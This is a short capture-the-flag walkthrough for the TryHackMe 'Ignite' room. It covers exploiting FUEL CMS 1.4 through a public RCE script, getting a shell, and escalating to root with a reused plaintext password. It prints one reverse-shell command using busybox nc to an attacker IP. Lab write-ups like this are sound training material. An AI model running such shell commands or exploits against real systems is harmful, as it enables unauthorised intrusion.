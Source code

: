 # Ignite CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Ignite** CTF challenge on [TryHackMe](https://tryhackme.com/room/ignite). 
---

from scan we know about web page on port 80

![scn](imgs/scn.png "scn")

we see partialy configured FUEL CMS 1.4 we also see admin credentials

![cms](imgs/cms.png "cms")

![creds](imgs/creds.png "creds")

for this version there is an exploit from exploit-db that should work

![db](imgs/db.png "db")

i found working version of the script

now we have Remote Code Execution

![cmd](imgs/cmd.png "cmd")

i used this command to get better rev shell

```
busybox nc 10.14.X.X 4445 -e /bin/bash
```

we found user flag

![user](imgs/user.png "user")

using linpeas i only found some plain text password and decided to try to use it as root password

![lin](imgs/lin.png "lin")

it worked we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
